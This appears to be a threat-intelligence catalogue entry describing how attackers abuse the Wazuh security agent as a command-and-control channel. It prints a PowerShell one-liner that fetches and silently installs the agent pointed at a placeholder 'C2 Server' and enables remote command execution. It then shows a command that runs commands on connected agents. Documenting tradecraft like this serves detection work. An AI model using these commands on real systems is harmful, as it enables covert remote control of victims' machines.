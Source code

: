 ```yaml
---
title: Wazuh
tags:
  - Enum
  - Exec
  - C2
references:
- https://securelist.com/miner-campaign-misuses-open-source-siem-agent/114022/
- https://documentation.wazuh.com/current/quickstart.html
files: []
---
```


Wazuh is a security platform that provides unified XDR and SIEM protection for endpoints and cloud workloads. The solution is composed of a single universal agent and three central components: the Wazuh server, the Wazuh indexer, and the Wazuh dashboard. 


**C2 Connection**

```powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
```

**Execute Commmands**

once the agents connected the agent-control binary allows you to execute commands

```/var/ossec/bin/agent-control -R 'whoami'```
